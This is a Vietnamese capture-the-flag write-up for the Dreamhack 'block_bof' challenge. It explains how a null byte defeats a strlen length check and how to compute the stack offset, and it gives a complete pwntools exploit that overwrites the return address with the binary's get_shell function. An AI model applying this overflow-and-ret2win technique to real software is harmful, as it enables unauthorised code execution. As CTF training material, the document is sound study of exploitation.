

# Decription
[](https://dreamhack.io/wargame/challenges/1860)
# Source




# Problem

Trong hàm main v5 khai báo với kích thước là 48 bytes nhưng scanf lại không kiểm soát đầu vào.

-> bof

Hàm check có strlen() kiểm tra số lượng đầu vào. Nếu > 15 thì exit().


Nhưng hàm strlen() chỉ kiểm tra đến khi nào gặp bytes null sẽ dừng lại -> Vẫn có thể overflow.

Mục tiêu là ret2win nên cần tính offset đên ret.

# Solve

Ta có thể dùng gdb để tính hoặc tính luôn trên ida.

```c
-0000000000000030     _BYTE var_30;
-000000000000002F     // padding byte
-000000000000002E     // padding byte
-000000000000002D     // padding byte
-000000000000002C     // padding byte
-000000000000002B     // padding byte
-000000000000002A     // padding byte
-0000000000000029     // padding byte
-0000000000000028     // padding byte
-0000000000000027     // padding byte
-0000000000000026     // padding byte
-0000000000000025     // padding byte
-0000000000000024     // padding byte
-0000000000000023     // padding byte
-0000000000000022     // padding byte
-0000000000000021     // padding byte
-0000000000000020     // padding byte
-000000000000001F     // padding byte
-000000000000001E     // padding byte
-000000000000001D     // padding byte
-000000000000001C     // padding byte
-000000000000001B     // padding byte
-000000000000001A     // padding byte
-0000000000000019     // padding byte
-0000000000000018     // padding byte
-0000000000000017     // padding byte
-0000000000000016     // padding byte
-0000000000000015     // padding byte
-0000000000000014     // padding byte
-0000000000000013     // padding byte
-0000000000000012     // padding byte
-0000000000000011     // padding byte
-0000000000000010     // padding byte
-000000000000000F     // padding byte
-000000000000000E     // padding byte
-000000000000000D     // padding byte
-000000000000000C     // padding byte
-000000000000000B     // padding byte
-000000000000000A     // padding byte
-0000000000000009     // padding byte
-0000000000000008     // padding byte
-0000000000000007     // padding byte
-0000000000000006     // padding byte
-0000000000000005     // padding byte
-0000000000000004     // padding byte
-0000000000000003     // padding byte
-0000000000000002     // padding byte
-0000000000000001     // padding byte
+0000000000000000     _QWORD __saved_registers;
+0000000000000008     _UNKNOWN *__return_address;
+0000000000000010
+0000000000000010 // end of stack variables
```
var_30 đến ret là 0x38 bytes

```c
payload = b'a' *15 + b'\x00'
payload = payload.ljust(56, b'B')
payload += p64(0x0000000000401273)  //get_shell address
```


# Full script

```c
#!/usr/bin/env python3

from pwn import *

exe = ELF('block_bof', checksec=False)
# libc = ELF('', checksec=False)
context.binary = exe

info = lambda msg: log.info(msg)
s = lambda data, proc=None: proc.send(data) if proc else p.send(data)
sa = lambda msg, data, proc=None: proc.sendafter(msg, data) if proc else p.sendafter(msg, data)
sl = lambda data, proc=None: proc.sendline(data) if proc else p.sendline(data)
sla = lambda msg, data, proc=None: proc.p.sendlineafter(msg, data) if proc else p.sendlineafter(msg, data)
sn = lambda num, proc=None: proc.send(str(num).encode()) if proc else p.send(str(num).encode())
sna = lambda msg, num, proc=None: proc.sendafter(msg, str(num).encode()) if proc else p.sendafter(msg, str(num).encode())
sln = lambda num, proc=None: proc.sendline(str(num).encode()) if proc else p.sendline(str(num).encode())
slna = lambda msg, num, proc=None: proc.sendlineafter(msg, str(num).encode()) if proc else p.sendlineafter(msg, str(num).encode())
def GDB():
    if not args.REMOTE:
        gdb.attach(p, gdbscript='''

b* 0x0000000000401388
b* 0x00000000004012ab
b* 0x00000000004013bd
        c
        ''')
        input()


if args.REMOTE:
    p = remote('host3.dreamhack.games', 19236)
else:
    p = process([exe.path])
# GDB()

payload = b'a' *15 + b'\x00'
payload = payload.ljust(56, b'B')
payload += p64(0x0000000000401273)
sla(b'name??\n', b'\x00'*10)
sla(b'commnet : ', payload)
p.interactive()

```
